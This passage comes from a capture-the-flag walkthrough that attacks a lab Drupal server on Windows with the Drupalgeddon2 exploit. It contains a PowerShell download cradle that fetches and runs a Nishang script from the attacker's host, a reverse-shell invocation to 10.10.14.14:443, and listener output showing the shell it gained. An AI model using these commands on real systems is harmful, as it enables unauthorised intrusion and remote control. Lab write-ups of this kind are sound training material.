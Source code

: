 It turns out there’s also an [updated version](https://github.com/dreadlocked/Drupalgeddon2) on GitHub, and it works out of the box (and doesn’t print some annoying debug information).

#### Shell - Nishang

I can upgrade this to a [Nishang](https://github.com/samratashok/nishang) shell by grabbing a copy of `Invoke-PowerShellTcp.ps1`, adding a call to the function to the end, `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443`, and then serving that directory with `python3 -m http.server 80`. I’ll also open a `nc` listener on port 443.

Then I give this command to the Drupalgeddon2 shell:

```

drupalgeddon2>> powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')

```

My `python` webserver gets the request for `shell.ps1` and sends it:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [07/Mar/2019 08:35:14] "GET /shell.ps1 HTTP/1.1" 200 -

```

When `shell.ps1` is run, it loads all the functions, and then invokes the reverse shell to me on port 443, which I get in `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:59199.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>whoami
nt authority\iusr

```

### Drupalgeddon3

#### Enumeration

I’ll check out the details of Drupalgeddon3 using `searchsploit -x exploits/php/webapps/44542.txt`. Reading that, it says “You must be authenticated and with the power of deleting a node.” So it would not be an option taking this box from scratch. That said, I have access to the cookie for the admin thanks to the first exploit I ran, so I’ll give this a run using that.
